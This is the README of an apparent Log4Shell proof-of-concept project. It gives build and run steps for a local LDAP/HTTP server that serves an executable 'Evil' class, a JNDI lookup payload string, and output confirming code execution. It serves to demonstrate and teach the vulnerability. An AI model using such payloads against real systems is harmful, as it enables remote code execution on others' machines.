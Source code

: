 ## Log4Shell Proof of Concept

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J versions older than `2.15.0`.

This repo is based on the excellent proof-of-concept published by [BrianV](https://github.com/bmvermeer/log4jexploit/).
The PoC is a great starting point. This project expands on it by fleshing it out into a fully standalone demo.

For more information about the exploit and the mechanics of how it works, 
[here is a good blog post](https://snyk.io/blog/log4j-rce-log4shell-vulnerability-cve-2021-4428/).

### Requirements

You'll need one of the following Java SDKs:
  * 11.0.1 or earlier
  * 8u191 or earlier
  * 7u201 or earlier
  * 6u211 or earlier

Java SDKs newer than those versions don't have the same vulnerability.

### Building the PoC

In the root folder, run:

```
./mvnw clean install
```

**NOTE:** This project includes the Maven wrapper, so you don't need to have previously installed Maven.

### Running the PoC

This repo has two modules: server and client.

The server module runs a lean LDAP & HTTP server.

The LDAP server listens on port `9999` by default and will return an `LDAPResult` that includes a URL reference to a
Java class that will be deserialized and executed.

The HTTP server listens on port `8000` and responds to any request with a byte array that is the `Evil.class`.

`Evil` implements `ObjecFactory` which the JNDI mechanism hooks into to execute its `getObjectInstance` method. While
the method simply returns `null`, it uses `Runtime` to execute arbitrary code on the host machine. In this case, it
writes to a file called: `/tmp/pwned` to prove that it _could_ execute basically anything available on the machine.

This PoC should run as-is on Linux or Mac.

Open a terminal window and run the following:

```
cd log4shell-server
../mvnw exec:java -Dexec.mainClass="Server"
```

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-server ---
LDAP server listening on 0.0.0.0:9999
HTTP server listening on 0.0.0.0:8000
```

In another terminal window, run the following:

```
cd log4shell-client
JAVA_HOME=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home \
../mvnw exec:java -Dexec.mainClass="Main"
```

**NOTE:** Referencing `JAVA_HOME` is important as the exploit only fully works with older JDK versions.
For example, you can download JDK 8u111 
[here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). If you download
and install the version for Mac, the above command will work for you.

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-client ---
---------- JVM Props -------------
java.vm.version=25.111-b14
java.vm.vendor=Oracle Corporation
java.vm.name=Java HotSpot(TM) 64-Bit Server VM
java.vm.specification.name=Java Virtual Machine Specification
java.vm.specification.vendor=Oracle Corporation
java.vm.specification.version=1.8
java.vm.info=mixed mode
---------------------------------
20:27:49.676 [Main.main()] ERROR Main - test
/tmp/pwned DOES NOT EXIST
20:27:49.679 [Main.main()] ERROR Main - Output:${jndi:ldap://127.0.0.1:9999/Evil}
/tmp/pwned EXISTS - yah been pwned!
```

**NOTE**: The client app will tell you if it was successful. It does some checks, including looking for the 
`/tmp/pwned` file before and after the attack. You MUST delete the `/tmp/pwned` file between runs in order for the
client app to work properly. The file not being there and then being present after the attack is how it knows it's
been successful.